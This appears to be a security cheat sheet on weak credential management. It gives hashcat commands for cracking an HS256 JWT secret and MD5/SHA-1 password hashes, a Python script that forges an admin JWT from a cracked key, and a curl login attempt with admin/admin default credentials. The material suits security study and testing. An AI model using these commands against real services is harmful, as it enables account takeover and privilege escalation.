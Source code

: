 # Weak Credential Management

## Table of Contents
- [Known or Guessable Secrets](#known-or-guessable-secrets)
- [Weak Encryption of Secrets](#weak-encryption-of-secrets)

## Known or Guessable Secrets

### Using secrets that are easily guessed or commonly found in wordlists can compromise the entire service.

- Compromises in authentication systems
  1. JWT (HS256) secret key crack
      ```bash
      hashcat -m 16500 -a 0 hash.txt rockyou.txt
      ```
  2. Creating a forged JWT
      ```python
      import jwt
      
      secret_key = "secret123" #secret key cracked with hashcat
      
      payload = {
          "sub": "user_123",
          "role": "admin"
      }
      
      token = jwt.encode(payload, secret_key, algorithm="HS256")
      print(f"Generated JWT: {token}")
      ```
   
- Easily guessable admin credentials
   ```bash
   curl -X POST -d "username=admin&password=admin" https://[VULNERABLE-SERVICE]/login
   ```

## Weak Encryption of Secrets

### Using weak encryption algorithms enables faster decryption, potentially leading to further attacks. (e.g., credential stuffing)

- Cracking MD5 or SHA-1 hashed passwords
   ```bash
   hashcat -m 0 -a 0 hash.txt wordlist.txt
   ```
